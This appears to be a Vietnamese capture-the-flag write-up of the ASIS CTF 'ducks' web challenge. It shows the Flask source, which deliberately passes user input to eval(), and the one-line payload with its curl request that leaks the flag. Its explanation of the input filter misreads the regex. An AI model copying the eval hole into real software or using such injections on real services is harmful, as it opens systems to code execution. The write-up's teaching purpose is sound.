 Bài này cho luôn cả source để chúng ta xem.

```py
#!/usr/bin/env python3
from flask import Flask,request,Response
import random
import re

app = Flask(__name__)
availableDucks = ['duckInABag','duckLookingAtAHacker','duckWithAFreeHugsSign']
indexTemplate = None
flag = None

@app.route('/duck')
def retDuck():
	what = request.args.get('what')
	duckInABag = './images/e146727ce27b9ed172e70d85b2da4736.jpeg'
	duckLookingAtAHacker = './images/591233537c16718427dc3c23429de172.jpeg'
	duckWithAFreeHugsSign = './images/25058ec9ffd96a8bcd4fcb28ef4ca72b.jpeg'

	if(not what or re.search(r'[^A-Za-z\.]',what)):
		return 'what?'

	with open(eval(what),'rb') as f:
		return Response(f.read(), mimetype='image/jpeg')

@app.route("/")
def index():
	return indexTemplate.replace('WHAT',random.choice(availableDucks))

with open('./index.html') as f:
	indexTemplate = f.read() 
with open('/flag.txt') as f:
	flag = f.read()

if(__name__ == '__main__'):
	app.run(port=8000)
```

Nôm na bài này thì chúng ta interact thông qua biến `what` bằng phương thức `get`, để có thể đọc được flag thì chúng ta phải bypass hàm if đầu tiên. 

* Hàm if đầu tiên nó có chức năng tìm ở trong biến `what` nếu có ký tự nào từ `A-Z` hoặc `a-z` và `^ . \` thì sẽ in ra what?. Sau khi thử nhiều cách thì chúng ta không có cách nào để bypass hàm if đó hết và sai lầm của mình là cứ chăm chăm bypass hàm if trong khi không cần thiết :lol:, chúng ta chỉ cần in trực tiếp flag ở trong file f ra mà thôi. 

payload của chúng ta đó là `http://ducks.asisctf.com:8000/duck?what=f.name` 

```cmd
y198@b1nhnt:~$ curl http://ducks.asisctf.com:8000/duck?what=f.name
ASIS{run-away-ducks-are-coming-🦆🦆}
```
